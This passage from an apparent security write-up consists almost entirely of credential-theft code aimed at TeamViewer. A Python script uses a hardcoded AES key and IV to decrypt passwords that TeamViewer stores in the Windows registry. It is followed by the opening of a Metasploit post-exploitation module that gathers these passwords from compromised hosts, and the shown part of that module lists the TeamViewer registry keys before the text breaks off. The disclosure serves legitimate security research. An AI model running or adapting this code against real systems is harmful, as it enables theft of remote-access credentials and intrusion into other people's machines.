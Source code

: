 
See below for an implementation in Python as well as further below for a post metasploit module
```python
import sys, hexdump, binascii
from Crypto.Cipher import AES

class AESCipher:
    def __init__(self, key):
        self.key = key

    def decrypt(self, iv, data):
        self.cipher = AES.new(self.key, AES.MODE_CBC, iv)
        return self.cipher.decrypt(data)

key = binascii.unhexlify("0602000000a400005253413100040000")
iv = binascii.unhexlify("0100010067244F436E6762F25EA8D704")
hex_str_cipher = "d690a9d0a592327f99bb4c6a6b6d4cbe"			# output from the registry

ciphertext = binascii.unhexlify(hex_str_cipher)

raw_un = AESCipher(key).decrypt(iv, ciphertext)

print(hexdump.hexdump(raw_un))

password = raw_un.decode('utf-16')
print(password)
```

```ruby
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
# @blurbdust based this code off of https://github.com/rapid7/metasploit-framework/blob/master/modules/post/windows/gather/credentials/gpp.rb
# and https://github.com/rapid7/metasploit-framework/blob/master/modules/post/windows/gather/enum_ms_product_keys.rb
##

class MetasploitModule < Msf::Post
  include Msf::Post::Windows::Registry

  def initialize(info={})
    super(update_info(info,
        'Name'          => 'Windows Gather TeamViewer Passwords',
        'Description'   => %q{ This module will find and decrypt stored TeamViewer keys },
        'License'       => MSF_LICENSE,
        'Author'        => [ 'Nic Losby <blurbdust[at]gmail.com>'],
        'Platform'      => [ 'win' ],
        'SessionTypes'  => [ 'meterpreter' ]
      ))
  end

  def app_list
    results = ""
    keys = [
      [ "HKLM\\SOFTWARE\\WOW6432Node\\TeamViewer\\Version7", "Version" ],
      [ "HKLM\\SOFTWARE\\WOW6432Node\\TeamViewer\\Version8", "Version" ],
      [ "HKLM\\SOFTWARE\\WOW6432Node\\TeamViewer\\Version9", "Version" ],
      [ "HKLM\\SOFTWARE\\WOW6432Node\\TeamViewer\\Version10", "Version" ],
      [ "HKLM\\SOFTWARE\\WOW6432Node\\TeamViewer\\Version11", "Version" ],
      [ "HKLM\\SOFTWARE\\WOW6432Node\\TeamViewer\\Version12", "Version" ],
      [ "HKLM\\SOFTWARE\\WOW6432Node\\TeamViewer\\Version13", "Version" ],
      [ "HKLM\\SOFTWARE\\WOW6432Node\\TeamViewer\\Version14", "Version" ],
      [ "HKLM\\SOFTWARE\\WOW6432Node\\TeamViewer\\Version15", "Version" ],
      [ "HKLM\\SOFTWARE\\WOW6432Node\\TeamViewer", "Version" ],
```
